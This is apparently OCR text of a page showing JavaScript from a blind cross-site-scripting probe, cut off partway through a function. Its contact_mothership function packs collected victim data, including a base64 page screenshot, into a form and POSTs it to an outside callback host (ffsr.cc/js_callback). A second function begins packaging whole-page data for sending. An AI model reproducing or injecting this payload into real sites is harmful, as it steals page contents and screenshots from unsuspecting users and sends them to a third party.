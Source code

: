 function addEvent(element, eventName, fn) {
    if (element.addEventListener)
        element.addEventListener(eventName, fn, false);
    else if (element.attachEvent)
        element.attachEvent('on' + eventName, fn);
}

function get_dom_text() {
    var text_extractions_to_try = [];
    for (var i = 0; i < text_extractions_to_try.length; i++) {
        if (typeof text_extractions_to_try[i] === 'string') {
            return text_extractions_to_try[i];
        }
    }

    return '';
}

function generate_random_string(length) {
    var return_array = [];
    var characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    var charactersLength = characters.length;
    for (var i = 0; i < length; i++) {
        return_array.push(characters.charAt(Math.floor(Math.random() * charactersLength)));
    }
    return return_array.join("");
}

function contact_mothership(probe_return_data) {
    var form_data = new FormData();
    var payload_keys = Object.keys(probe_return_data);
    payload_keys.map(function(payload_key) {
        if (payload_key === 'screenshot') {
            var base64_data = probe_return_data[payload_key].replace('data:image/png;base64,', '');
            var screenshot_blob = base64_to_blob(base64_data, 'image/png');
            form_data.append(payload_key, screenshot_blob, "screenshot.png")
            return
        }
        form_data.append(payload_key, probe_return_data[payload_key]);
    });

    var http = new XMLHttpRequest();
    var url = "https://ffsr.cc/js_callback";
    http.open("POST", url, true);
    http.onreadystatechange = function() {
        if (http.readyState == 4 && http.status == 200) {
        }
    }
    http.send(form_data);
}

function send_collected_page(page_data) {
    var form_data = new FormData();
    var payload_keys = Object.keys(page_data);
    payload_keys.map(function(payload_key) {
        form_data.append(payload_key, page_data[payload_key]);
    });
